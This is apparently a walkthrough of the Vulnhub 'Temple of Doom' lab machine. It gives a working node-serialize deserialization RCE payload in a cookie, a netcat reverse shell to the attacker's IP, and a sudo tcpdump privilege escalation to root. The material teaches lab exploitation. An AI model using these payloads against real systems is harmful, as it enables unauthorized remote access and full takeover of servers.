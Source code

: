 #javascript-deserialization #lateral-esc
Nmap:
```
22/tcp  open  ssh     OpenSSH 7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 95:68:04:c7:42:03:04:cd:00:4e:36:7e:cd:4f:66:ea (RSA)
|   256 c3:06:5f:7f:17:b6:cb:bc:79:6b:46:46:cc:11:3a:7d (ECDSA)
|_  256 63:0c:28:88:25:d5:48:19:82:bb:bd:72:c6:6c:68:50 (ED25519)

666/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
MAC Address: 08:00:27:5B:A7:AE (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
```
says the server:
![[walkthroughs/Vulnhub/Temple_of_doom/IMG/Pasted image 20230806131856.png]]
I fuzzed the website , after I visited again I saw this error:
![[walkthroughs/Vulnhub/Temple_of_doom/IMG/Pasted image 20230806133359.png]]
I first thought that it was misconfigured by fuzzing but no , this error comes when we try to send some json object 
![[walkthroughs/Vulnhub/Temple_of_doom/IMG/Pasted image 20230806133538.png]]
so what could have we sent?: 
also you should visit the site with http, so when I visit with another browser , I saw under construction again.....wait is it creating session ? and then sending the cookie which is making this error appear? and according to article that cookie is not in json format or characters are bad
yep , yep, and look in base64 too:
![[walkthroughs/Vulnhub/Temple_of_doom/IMG/Pasted image 20230806134213.png]]
![[walkthroughs/Vulnhub/Temple_of_doom/IMG/Pasted image 20230806134329.png]]
`{"username":"Admin","csrftoken":"u32t4o3tb3gg431fs34ggdgchjwnza0l=","Expires=":Friday, 13 Oct 2018 00:00:00 GMT"}base64: invalid input
`
look closely there's a quote missing in the expires value we fix it and resend the request:
![[walkthroughs/Vulnhub/Temple_of_doom/IMG/Pasted image 20230806232539.png]]
so we are admin ... hmmm now what
When we look at the machine there is no functionality whatsoever on the admin page too.... this means that the only thing here going to the server is the cookie that we are providing it , if you look closely then you will understand that when we change the name from admin to any other , it will display that too , so which means it's using base64 for serializing the data and then at the backend it deserializes the data from the base64 so it may be vulnerable form js-deserialization attack:
let's give it a payload:
look at this blog at the medium
`https://medium.com/@chaudharyaditya/insecure-deserialization-3035c6b5766e`
```json
{"username":"_$$ND_FUNC$$_function (){return require('child_process').execSync('id',(error, stdout, stderr)=>{ console.log(stdout); }); }()","csrftoken":"u32t4o3tb3gg431fs34ggdgc
```

`_$$ND_FUNC$$_function (){return require('child_process').execSync('id',(error, stdout, stderr)=>{ console.log(stdout); }); }()`
![[walkthroughs/Vulnhub/Temple_of_doom/IMG/Pasted image 20230817190039.png]]

```json
{"username":"_$$ND_FUNC$$_function (){return require('child_process').execSync('nc 192.168.90.130 4444 -e /bin/bash',(error, stdout, stderr)=>{ console.log(stdout); }); }()","csrftoken":"u32t4o3tb3gg431fs34ggdgc
```
and we get the shell , we stabilize the shell:
***
step 1:
```python
/usr/bin/python -c 'import pty;pty.spawn("/bin/bash")'
```

step 2:
do `ctrl+z` your main system terminal should have opened and then write this:
```
stty raw -echo; fg
```

then press `enter` two times , your terminal for the machine should be back , also type this to get some env variables like clear in that machine:
```
export TERM=xterm
```
***

![[walkthroughs/Vulnhub/Temple_of_doom/IMG/Pasted image 20230818155146.png]]
![[walkthroughs/Vulnhub/Temple_of_doom/IMG/Pasted image 20230818162544.png]]
![[walkthroughs/Vulnhub/Temple_of_doom/IMG/Pasted image 20230818162558.png]]
![[walkthroughs/Vulnhub/Temple_of_doom/IMG/Pasted image 20230818162636.png]]

![[walkthroughs/Vulnhub/Temple_of_doom/IMG/Pasted image 20230818162838.png]]
so first I built the connection with nc and then we gave the different command {2nd one}:
![[walkthroughs/Vulnhub/Temple_of_doom/IMG/Pasted image 20230818163258.png]]
![[walkthroughs/Vulnhub/Temple_of_doom/IMG/Pasted image 20230818163433.png]]

```
COMMAND='/bin/bash'
TF=$(mktemp)
echo "$COMMAND" > $TF
chmod +x $TF
sudo tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z $TF -Z root
```

```
sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /home/fireman/she -Z root
```

![[walkthroughs/Vulnhub/Temple_of_doom/IMG/Pasted image 20230818170636.png]]
![[walkthroughs/Vulnhub/Temple_of_doom/IMG/Pasted image 20230818170726.png]]
OR
rewrite the /etc/passwd
![[walkthroughs/Vulnhub/Temple_of_doom/IMG/Pasted image 20230818165943.png]]
![[walkthroughs/Vulnhub/Temple_of_doom/IMG/Pasted image 20230818170129.png]]
![[walkthroughs/Vulnhub/Temple_of_doom/IMG/Pasted image 20230818170620.png]]
